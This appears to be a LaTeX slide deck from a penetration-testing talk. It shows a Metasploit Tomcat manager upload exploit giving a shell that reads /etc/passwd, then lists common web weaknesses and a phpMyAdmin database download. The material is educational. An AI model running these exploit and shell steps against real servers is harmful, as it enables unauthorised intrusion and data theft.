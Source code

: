 \documentclass[Screen16to9,17pt]{foils}
\begin{document}

\begin{alltt}\scriptsize
msf > use exploit/multi/http/tomcat_mgr_upload

meterpreter > sysinfo
Computer    : solr4-prod-xxxxx.internal
OS          : Linux 4.15.0-1098-gcp (amd64)
Meterpreter : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.

whoami
tomcat7

id
uid=114(tomcat7) gid=118(tomcat7) groups=118(tomcat7)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{alltt}

\begin{list2}
    \item Gooooddammmit! Its easy being a hacker I used ready made Metasploit, tomcat modules and deployed my own application that allowed command line access to the server.

\end{list2}




We typically see:
\begin{list2}
\item Libraries in web applications not updated JQuery especially
\item TLS settings still have TLS version 1.0 and 1.1 enabled -- recommend only 1.2 and 1.3
\item Cookies without \verb+secure+ and -verb+http only+ flags -- easy to fix
\item SQL injections also still seen -- 2020/2021/2022
\item Old PHP versions seen PHP5 even! PHP7
\item Errors shown to the user -- helps an attacker prepare better requests
\end{list2}

Some of these can be identified by just running Nikto from Kali! Do it!


Also seen in web application security testing:
\begin{list2}
\item File with passwords to the solution, helpful "I left the passwords in the web root folder"
\item Same server also had a nice debug.log in the root, with PHP errors so helpful for checking requests
\item Webserver with PHPMyAdmin
\begin{enumerate}
\item This admin tool for MySQL databases was on port 80
\item Then on port 8080 a nice file available with password
\item Return to port 80 with browser - access admin tool
\item Download database, {\bf took less than 10 minutes!}
\end{enumerate}
\end{list2}
\end{document}
